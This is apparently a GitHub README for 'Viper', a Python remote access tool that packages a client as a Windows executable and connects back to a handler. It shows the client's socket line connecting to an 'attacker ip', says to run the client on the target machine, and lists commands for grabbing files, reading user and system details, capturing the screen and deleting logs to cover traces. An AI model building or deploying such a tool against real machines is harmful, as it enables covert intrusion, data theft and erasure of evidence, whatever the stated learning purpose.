 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

VIPER

"""
This is viper and designed to control remote clients that get deployed on computers in defense of exploitation frameworks!
The viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information. 
the viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensible actions.

This program was created as a basic function to reach out and grab things fast! Powered by python. 


Requirements

viper has been tested on kali 2.0

python 2.7
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

start the viper console:

$$> chmod +x viper.py

$$> python viper.py

Navigate into the payloads and change the ip address and port number inside the client


usage:

start the handler first and then start the client on the target machine

viper main commands:


[+] handler ========= > "starts the viper server and waits for a call back" 

[*] client2exe ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

Inside viper client modify these two lines with your ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


viper connection commands:
use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request
